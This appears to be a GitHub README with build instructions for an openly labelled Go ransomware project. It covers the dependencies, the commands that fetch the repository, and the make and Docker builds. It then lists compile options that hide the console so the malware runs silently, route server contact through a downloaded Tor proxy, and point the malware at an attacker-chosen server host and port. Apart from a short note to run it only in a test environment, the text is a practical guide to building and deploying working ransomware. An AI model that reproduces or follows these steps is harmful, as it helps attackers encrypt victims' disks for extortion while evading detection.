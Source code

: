 ### Prerequisites
If you are on linux, be sure you have installes all required depencies;

You need Go at least version 1.8 with `$GOPATH/bin` in your $PATH and `$GOROOT` pointing to your Go installation folder.
```bash
glide       > https://github.com/Masterminds/glide

go-bindata  > apt install -y go-bindata

rsrc        > go get github.com/akavel/rsrc
```

> Note: DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not responsible if you accidentlly encrypt all of your disks!

#### Download the project:
```bash
go get -v github.com/j0nk0/ransomware
cd $GOPATH/src/github.com/j0nk0/ransomware
```

> If you have "Docker" skip to the next section.

Building the project requires a lot of steps, like the RSA key generation, build three binaries, embed manifest files, so, let's leave `make` do your job:

```bash
make deps
make
```
You can build the server for windows with `make -e GOOS=windows`(Default is linux).

#### Docker

```bash
./build-docker.sh make
```

#### Config Parameters

You can change some of the parameters during compilation. Instead of running only `make`, you can use;

```bash
HIDDEN='-H windowsgui' # (optional) will hide the console on deployment and make it discard all logs performed by the malware and will make it run silently in background.

USE_TOR=true # optional. If true, the malware will download the Tor proxy and use it to contact the server

SERVER_HOST=mydomain.com # The domain used to connect to your server. localhost, 0.0.0.0, 127.0.0.1 works too if you run the server on the same machine as the malware

SERVER_PORT=8080 # The server port, if using a domain you can set this to 80

GOOS=linux # The target OS to compile the server for. Eg: darwin, linux, windows
```
